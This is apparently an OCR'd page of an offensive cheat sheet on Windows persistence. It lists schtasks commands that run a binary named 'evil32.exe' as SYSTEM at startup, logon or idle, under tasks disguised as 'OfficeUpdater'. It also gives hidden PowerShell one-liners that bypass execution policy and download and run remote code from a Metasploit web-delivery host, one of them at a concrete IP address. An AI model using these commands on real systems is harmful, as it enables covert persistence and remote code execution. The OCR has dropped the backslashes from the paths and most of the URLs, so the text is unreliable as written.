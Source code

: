 #### SCHTASKS

Any user can create a task

Schedule a binary to run with arguments on system events

    #On System Startup
    schtasks /create /TN OfficeUpdaterA /tr ""c:evil32.exe" -k password -n services" /SC onstart /RU system /RL HIGHEST
    schtasks /create /TN OfficeUpdaterD /tr ""c:Program Filesevil32.exe" -k password -n services" /SC onstart /RU system /RL HIGHEST

    #On User Login
    schtasks /create /TN OfficeUpdaterB /tr ""c:evil32.exe" -k password -n services" /SC onlogon
    schtasks /create /TN OfficeUpdaterE /tr ""c:Program Filesevil32.exe" -k password -n services" /SC onlogon

    #On Idle
    schtasks /create /TN OfficeUpdaterC /tr ""c:evil32.exe" -k password -n services" /SC onidle /i 30''''
    schtasks /create /TN OfficeUpdaterF /tr ""c:Program Filesevil32.exe" -k password -n services" /SC onidle /i 60

Use the Powershell Web Delivery (Download and Execute) module in Metasploit 'exploitwindowsmiscpsh_web_delivery'

    #(X86) - On User Login
    schtasks /create /tn OfficeUpdaterA /tr "c:windowssystem32WindowsPowerShellv1.0powershell.exe -WindowStyle hidden -NoLogo -NonInteractive -ep bypass -nop -c 'IEX ((new-object net.webclient).downloadstring('''http:///'''))'" /sc onlogon /ru System

    #(X86) - On System Start
    schtasks /create /tn OfficeUpdaterB /tr "c:windowssystem32WindowsPowerShellv1.0powershell.exe -WindowStyle hidden -NoLogo -NonInteractive -ep bypass -nop -c 'IEX ((new-object net.webclient).downloadstring('''http:///'''))'" /sc onstart /ru System

    #(X86) - On User Idle (30mins)
    schtasks /create /tn OfficeUpdaterC /tr "c:windowssystem32WindowsPowerShellv1.0powershell.exe -WindowStyle hidden -NoLogo -NonInteractive -ep bypass -nop -c 'IEX ((new-object net.webclient).downloadstring('''http:///'''))'" /sc onidle /i 30

    #(X64) - On User Login
    schtasks /create /tn OfficeUpdaterA /tr "c:windowssyswow64WindowsPowerShellv1.0powershell.exe -WindowStyle hidden -NoLogo -NonInteractive -ep bypass -nop -c 'IEX ((new-object net.webclient).downloadstring('''http:///'''))'" /sc onlogon /ru System

    #(X64) - On System Start
    schtasks /create /tn OfficeUpdaterB /tr "c:windowssyswow64WindowsPowerShellv1.0powershell.exe -WindowStyle hidden -NoLogo -NonInteractive -ep bypass -nop -c 'IEX ((new-object net.webclient).downloadstring('''http:///'''))'" /sc onstart /ru System

    #(X64) - On User Idle (30mins)
    schtasks /create /tn OfficeUpdaterC /tr "c:windowssyswow64WindowsPowerShellv1.0powershell.exe -WindowStyle hidden -NoLogo -NonInteractive -ep bypass -nop -c 'IEX ((new-object net.webclient).downloadstring('''http://192.168.95.195:8080/kBBldxiub6'''))'" /sc onidle /i 30

#### Additional Notes
